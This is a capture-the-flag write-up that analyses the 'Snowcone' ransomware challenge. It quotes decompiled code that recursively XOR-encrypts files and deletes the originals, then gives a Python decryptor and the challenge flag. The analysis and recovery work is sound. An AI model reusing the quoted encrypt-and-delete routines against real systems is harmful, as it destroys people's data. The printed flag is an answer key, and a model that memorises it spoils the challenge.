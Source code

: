 ﻿## Any% Snowcone Writeup Speedrun

Objectives:

 1. Find/recover the encrypted files
 2. Decrypt the encrypted files 

***Find the files***
This first part involves Wireshark. This was my first time using Wireshark, but with the help of my group I managed to simplify the process as follows: we first follow the TCP stream of the first entry to get a general idea of what happened. The most important parts are highlighted in red by Wireshark. First, a file named snowcone.exe was downloaded using the curl command. Then the snowcone.exe file was run on *super_sensitive_documents*. Then the output was turned into *exfil.zip* with the tar command. Finally, the zip file was encoded in base 64 resulting in the final file *exfil.zip.b64*.

We simply need to reverse these processes to get the documents that were lost. We start by copying the certificate text into a file called *exfil.zip.b64*. We then decode from base 64 using the **decode** command on the terminal or use an online decoder like I did. We should get the decoded exfil zip file which we can unzip using commands on the terminal or whatever to get the encrypted documents. This completes the first step of recovering the files.

***Unransomware the files*** 
Rather than pay hackers hundreds of dollars in bitcoin to decrypt the files for you (if they even keep their word), why not just reverse engineer the encryption and do it yourself for free?
This is where DnsPy comes in. We can open up the snowcone executable with DnsPy to decompile it in a sense and view the source code. We trace through the program to find out how it works.
Looking at the main function, we can see that it calls a method named `MakeItSnow`. We find the function and see the following code:

```vbnet
public  static  void  MakeItSnow(string  dir)  
{  
	string[]  array  =  Directory.GetFiles(dir);  
	for  (int  i  =  0;  i  <  array.Length;  i++)  
	{  
		SnowMachine.SmallSnowcone(array[i]);  
	}  
	array  =  Directory.GetDirectories(dir);  
	for  (int  i  =  0;  i  <  array.Length;  i++)  
	{  
		SnowMachine.MakeItSnow(array[i]);  
	}  
}
```

The important function is `SmallSnowcone`, and the code is as follows:

```vbnet
if  (path.EndsWith(".sn0w"))  
{  
return;  
}  
using  (FileStream  fileStream  =  new  FileStream(path,  FileMode.Open,  FileAccess.Read))  
{  
using  (FileStream  fileStream2  =  new  FileStream(path  +  ".sn0w",  FileMode.Create,  FileAccess.Write))  
{  
byte[]  array  =  new  byte[fileStream.Length];  
byte[]  array2  =  new  byte[fileStream.Length];  
fileStream.Read(array,  0,  (int)fileStream.Length);  
string  text  =  SnowMachine.PickSomeFlavoring();  
SnowMachine.SaltBaeDatFlavorIn(array,  array2,  text);  
byte[]  array3  =  SnowMachine.OTP(Encoding.ASCII.GetBytes(text));  
for  (int  i  =  0;  i  <  32;  i++)  
{  
fileStream2.WriteByte(Convert.ToByte((int)(array3[i]  |  128)));  
}  
fileStream2.Write(array2,  0,  array2.Length);  
}  
}  
File.Delete(path);
```

This is where the encryption happens, observation shows that several functions are called in the encryption process, namely `PickSomeFlavoring`, `SaltBaeDatFlavorIn`, and `OTP`. Let's find out what each is doing!

**PickSomeFlavoring()**
```vbnet
string  text  =  "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";  
string  text2  =  "";  
using  (RNGCryptoServiceProvider  rngcryptoServiceProvider  =  new  RNGCryptoServiceProvider())  
{  
for  (int  i  =  0;  i  <  32;  i++)  
{  
byte[]  array  =  new  byte[1];  
rngcryptoServiceProvider.GetBytes(array);  
text2  +=  text[(int)array[0]  %  text.Length].ToString();  
}  
}  
return  text2;
```
Breaking down the code, we essentially have a random number generator that randomly selects characters from the `text` string and makes a password of sorts that is 32 characters long and stores it in `text2` before returning `text2`.

**SaltBaeDatFlavorIn()**
```vbnet
for  (int  i  =  0;  i  <  file.Length;  i++)  
{  
snow[i]  =  Convert.ToByte((int)((char)file[i]  ^  flavor[i  %  32]));  
}
```
This function essentially converts the data in the original file to the encrypted data using the xor operation and some fancy modulo wrap around on the flavor string from the prior function.

**OTP()**
```vbnet
byte[]  array  =  new  byte[input.Length];  
for  (int  i  =  0;  i  <  input.Length;  i++)  
{  
array[i]  =  Convert.ToByte((int)(input[i]  ^  66));  
}  
return  array;
```

This function just xors the input with decimal 66 and returns the new byte array.

The last part of the main encryption function has this snippet of code which we should also be aware of:
```vbnet
for  (int  i  =  0;  i  <  32;  i++)  
{  
fileStream2.WriteByte(Convert.ToByte((int)(array3[i]  |  128)));  
}  
fileStream2.Write(array2,  0,  array2.Length);
```
This sets the high bit on the array that we OTP'ed and writes those 32 chracters to the file FIRST before writing the actual encrypted contents of the original file.

Now we simply reverse these changes with our own script. Here's how I did mine in Python:

```python
f = open("super_sensitive_documents/flag.txt.sn0w", "rb")
highbit = bytearray(f.read(32))
for i in range(32):
    highbit[i] = highbit[i] ^ 128
def reverseOTP(input):
    array = []
    for i in range(len(input)):
        array.append(input[i] ^ 66)
    return array
def reverseSalt(file, snow, flavor):
    for i in range(len(file)):
        snow[i] = file[i] ^ flavor[i % 32]
undoneOTP = reverseOTP(highbit)
file = bytearray(f.read())
snow = bytearray(len(file))
reverseSalt(file, snow, undoneOTP)
o = open("flag.txt", "wb")
o.write(snow)
f.close()
o.close()
```

Stepping through the script, we first read the first 32 characters of the encrypted files, which are the ones with their high bits set. We loop through each of those characters and reverse the high bit set with XOR. Then we have definitions for the functions that reverse the OTP and the salt, since those operations use XOR, we can simply do the same XOR operation again on the encrypted data to reverse it. We pass in the original high bit string into our `reverseOTP` function to get the password that was generated from `PickSomeFlavoring` in the snowcone executable. Lastly, we read the rest of the file, which is the encrypted content and make some byte arrays for the `reverseSalt` function. We pass in the password that we decrypted along with the two byte arrays to decrypt the entirety of the file. All that's left is to write the results to a file and we can get our flag (and we can do the same for the other encrypted files to see what's up, nice pictures btw).

**Flag**
`osu{1f_it_d03snT_5now_1m_GoNn4_sue_sOm3b0dy}`

We did it boys, ransomware is no more!








